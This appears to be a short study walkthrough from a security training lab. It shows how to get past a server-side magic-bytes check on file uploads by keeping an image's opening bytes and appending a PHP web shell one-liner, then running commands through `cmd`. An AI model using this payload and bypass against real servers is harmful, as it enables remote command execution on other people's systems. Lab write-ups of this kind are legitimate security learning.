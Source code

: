 ## Insecure File Upload - Magic Bytes
- Access the second file upload lab
### Try a Webshell Again
- Proxy uploading a .png file with burp
- Send the request to the repeater
- Replace the image data with `<?php system($_GET['cmd']); ?>` and the file extension with `.php`
- The response tells us that it wasn't allowed, so the check is happening server side
- Let's try to figure out how it is actually checking it

### Magic Bytes
- Magic bytes are the first few bytes of a file which tell the system what type of file it is
- Go back to the request with the image data
- Paste the payload after a few lines of the image data and remove the rest
- This bypassed the check and gets uploaded

  ![image](https://github.com/user-attachments/assets/77080186-e86c-496a-a4df-8b628e703c8c)

- Navigate to `/uploads/php_rev.php?cmd=whoami` to verify the upload and execution

  ![image](https://github.com/user-attachments/assets/f665f983-77fa-4187-b55c-a5f724ad037a)







